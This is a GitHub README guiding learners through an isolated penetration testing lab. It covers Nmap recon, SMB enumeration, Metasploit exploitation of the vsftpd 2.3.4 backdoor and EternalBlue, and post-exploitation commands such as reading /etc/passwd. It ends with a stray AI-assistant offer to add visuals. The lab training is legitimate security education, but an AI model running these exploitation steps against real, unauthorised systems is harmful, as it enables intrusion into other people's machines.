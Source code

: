 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Targets-Metasploitable%20%26%20Windows-red?style=for-the-badge" />
</p>


## 🔹 Lab Overview

This guide is designed for **ethical hackers and cybersecurity enthusiasts** to practice penetration testing in a **safe, isolated, and realistic environment**.

**Lab Components:**

| Machine   | OS               | IP Address       | Role                         |
|-----------|-----------------|----------------|------------------------------|
| Attacker  | Kali Linux       | 192.168.142.128 | Pentester machine            |
| Target 1 | Metasploitable 2 | 192.168.142.130 | Vulnerable Linux machine     |
| Target 2 | Windows 10/Server| 192.168.142.132 | Vulnerable Windows machine   |

**Objectives:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation.
- Practice both Linux and Windows target exploitation in a controlled environment.
- Build a detailed report of findings.

## 🔹 Lab Setup

### 1. Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux VM
- Metasploitable 2 VM
- Windows VM (10/Server)
- Internal network setup for isolation
- Snapshots before testing

### 2. Network Configuration
1. Set all VMs to **Host-Only Adapter** or **Internal Network**.
2. Confirm connectivity between machines:
```bash
ping 192.168.142.130
ping 192.168.142.132
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather info without directly contacting the target:

```bash
whois 192.168.142.130
whois 192.168.142.132
nslookup 192.168.142.132
```

#### Active Recon

* Scan for open ports and services with **Nmap**:

```bash
nmap -sS -Pn 192.168.142.130
nmap -sS -Pn 192.168.142.132
```

* Detailed scanning with service detection:

```bash
nmap -A -p- 192.168.142.130
nmap -A -p- 192.168.142.132
```

---

### Step 2: Enumeration

#### Linux Target

* Identify services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP Banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux 192.168.142.130
```

#### Windows Target

* SMB enumeration:

```bash
smbclient -L \\192.168.142.132 -U Administrator
```

* RDP/SMB service detection:

```bash
nmap -p 3389,445 -sV 192.168.142.132
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to find known exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit ms17-010
```

* Metasploit module usage example:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

---

### Step 4: Exploitation

#### Linux Target

* Exploit FTP vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

#### Windows Target

* Exploit SMB vulnerability:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

* Gain shell access:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Linux target:

```bash
uname -a
cat /etc/passwd
ifconfig
sudo -l
```

* Windows target:

```powershell
systeminfo
net user
whoami /priv
```

* Extract sensitive information or pivot to other machines (in lab only).

---

### Step 6: Reporting

Document all findings with screenshots, PoCs, and mitigation steps.

**Sample Table:**

| Vulnerability | Exploit Used  | Impact                | Mitigation                      |
| ------------- | ------------- | --------------------- | ------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access   | Upgrade FTP / Disable anonymous |
| SMB MS17-010  | EternalBlue   | Remote Code Execution | Apply Windows Update / Patch    |

---

## 🔹 Recommended Tools

* **Kali Linux Tools:** Nmap, Netcat, Metasploit, Enum4linux, Nikto, Dirb
* **Windows Testing Tools:** PowerShell, CrackMapExec, SMBMap
* **Analysis Tools:** Wireshark, Burp Suite

---

## 🔹 Best Practices

* Always take VM snapshots before testing.
* Keep the lab **isolated from the internet**.
* Use only lab IP addresses to avoid accidental attacks.
* Document every step carefully for reporting.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [MS17-010 EternalBlue](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Do **NOT** perform penetration testing on unauthorized networks. Unauthorized testing is illegal and unethical.

```

---

If you want, I can also **add rich visuals, diagrams, folder structures, and GitHub badges for tools, OS, and steps**—so it becomes a **full professional lab README.md** ready to impress on GitHub.  

Do you want me to enhance it with visuals and structure?
```
